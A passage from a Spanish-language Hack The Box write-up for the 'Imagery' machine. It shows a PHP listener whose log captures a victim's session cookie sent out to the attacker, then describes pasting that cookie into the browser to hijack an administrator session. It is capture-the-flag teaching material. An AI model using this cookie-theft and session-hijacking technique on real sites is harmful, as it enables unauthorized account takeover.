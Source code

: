 Observa el servidor de **PHP**:
```bash
php -S 0.0.0.0:8888
[Sun Oct  5 15:30:14 2025] PHP 8.4.11 Development Server (http://0.0.0.0:8888) started
[Sat Oct  4 00:18:08 2025] 10.10.11.88:53642 Accepted
[Sat Oct  4 00:18:08 2025] 10.10.11.88:53642 [200]: GET /Cookie/session=.eJw9jbEO...
[Sat Oct  4 00:18:08 2025] 10.10.11.88:53642 Closing
...
```
Muy bien, obtuvimos la cookie.

Para cargarla en nuestra sesión actual, podemos usar el inspector y pegar la cookie en la sección **Store**, en el valor de la cookie:

<p align="center">
<img src="/assets/images/htb-writeup-imagery/Captura17.png">
</p>

Ya la cargamos, ahora solo tienes que recargar la página y ya deberíamos ser el administrador:

<p align="center">
<img src="/assets/images/htb-writeup-imagery/Captura18.png">
</p>
